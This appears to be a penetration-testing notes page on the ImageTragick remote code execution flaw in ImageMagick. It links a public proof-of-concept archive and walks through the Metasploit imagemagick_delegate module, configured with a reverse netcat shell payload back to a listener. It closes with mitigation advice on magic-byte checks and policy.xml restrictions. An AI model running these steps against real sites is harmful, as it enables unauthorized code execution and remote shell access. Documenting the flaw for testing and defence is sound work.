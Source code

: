 1. check for a policy.xml file and test it against https://packetstormsecurity.com/files/download/152364/ImageTragick-PoCs.zip to see if you can exploit this vulnerability on the site in question. 
2. use Metasploit https://www.rapid7.com/db/modules/exploit/unix/fileformat/imagemagick_delegate/
```
msf > use exploit/unix/fileformat/imagemagick_delegate
msf exploit(imagemagick_delegate) > show targets
    ...targets...
msf exploit(imagemagick_delegate) > set TARGET < target-id >
msf exploit(unix/fileformat/imagemagick_delegate) > show options

Module options (exploit/unix/fileformat/imagemagick_delegate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   msf.png          yes       Output file
   USE_POPEN  true             no        Use popen() vector


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   SVG file


msf exploit(imagemagick_delegate) > exploit
```

### Info:
https://imagetragick.com/

There are multiple vulnerabilities in ImageMagick, a package commonly used by web services to process images. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild.

A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP’s imagick, Ruby’s rmagick and paperclip, and nodejs’s imagemagick.

If you use ImageMagick or an affected library, we recommend you mitigate the known vulnerabilities by doing at least one of these two things (but preferably both!):

1. Verify that all image files begin with the expected "magic bytes" corresponding to the image file types you support before sending them to ImageMagick for processing. 
2. Use a policy file to disable the vulnerable ImageMagick coders. The global policy for ImageMagick is usually found in “/etc/ImageMagick”. The below policy.xml example will disable the coders EPHEMERAL, URL, MVG, and MSL.
